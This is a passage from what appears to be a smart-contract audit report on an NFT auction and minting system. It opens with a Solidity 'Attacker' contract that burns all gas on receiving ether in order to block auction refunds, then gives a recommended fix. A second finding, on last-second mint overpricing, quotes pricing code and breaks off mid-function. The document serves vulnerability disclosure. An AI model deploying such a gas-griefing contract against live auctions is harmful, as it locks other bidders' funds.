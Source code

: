 contract Attacker { 
    bool shouldSpendGas = true;
    function allowClaim() external {
        shouldSpendGas = false;
    }

    receive() external payable {
        if (shouldSpendGas) {
            for (uint256 i; i < type(uint256).max; ++i) {}
        }
    }
}
```
This test requires a Base.t.sol file: https://gist.github.com/sashik-eth/accf61913418dddc86d94ff5ae6fe9bd
Also foundry.toml file should include the next line:
```gas_limit = 30000000```
## Recommended Mitigation Steps
Consider updating the refund flow in a way that each bidder calls withdraws for their bids instead of forcing sending all bids in the auctionDemo#claimAuction function.


## [M-01]  Last-second minter would overpay mint price if salesOption == 2

## Vulnerability details
```NextGenMinterContract#getPrice``` returns the price for minting a new token. If the collection has ```salesOption``` with value 2 and the current timestamp is between ```allowlistStartTim```e and ```publicEndTime```, this function would calculate the mint price between values of ```collectionMintCost``` and ```collectionEndMintCost```. Price is changing consistently with the growing ```block.timestamp``` value:
```

    function getPrice(uint256 _collectionId) public view returns (uint256) {
        uint tDiff;
        if (collectionPhases[_collectionId].salesOption == 3) {
            // increase minting price by mintcost / collectionPhases[_collectionId].rate every mint (1mint/period)
            // to get the price rate needs to be set
            if (collectionPhases[_collectionId].rate > 0) {
                return collectionPhases[_collectionId].collectionMintCost + ((collectionPhases[_collectionId].collectionMintCost / collectionPhases[_collectionId].rate) * gencore.viewCirSupply(_collectionId));
            } else {
                return collectionPhases[_collectionId].collectionMintCost;
            }
        } else if (collectionPhases[_collectionId].salesOption == 2 && block.timestamp > collectionPhases[_collectionId].allowlistStartTime && block.timestamp < collectionPhases[_collectionId].publicEndTime){
            // decreases exponentially every time period
            // collectionPhases[_collectionId].timePeriod sets the time period for decreasing the mintcost
            // if just public mint set the publicStartTime = allowlistStartTime
            // if rate = 0 exponetialy decrease
            // if rate is set the linear decrase each period per rate
            tDiff = (block.timestamp - collectionPhases[_collectionId].allowlistStartTime) / collectionPhases[_collectionId].timePeriod;
            uint256 price;
            uint256 decreaserate;
            if (collectionPhases[_collectionId].rate == 0) {
                price = collectionPhases[_collectionId].collectionMintCost / (tDiff + 1);
                decreaserate = ((price - (collectionPhases[_collectionId].collectionMintCost / (tDiff + 2))) / collectionPhases[_collectionId].timePeriod) * ((block.timestamp - (tDiff * collectionPhases[_collectionId].timePeriod) - collectionPhases[_collectionId].allowlistStartTime));
            } else {
                if (((collectionPhases[_collectionId].collectionMintCost - collectionPhases[_collectionId].collectionEndMintCost) / (collectionPhases[_collectionId].rate)) > tDiff) {
                    price = collectionPhases[_collectionId].collectionMintCost - (tDiff * collectionPhases[_collectionId].rate);
                } else {
                    price = collectionPhases[_collectionId].collectionEndMintCost;
                }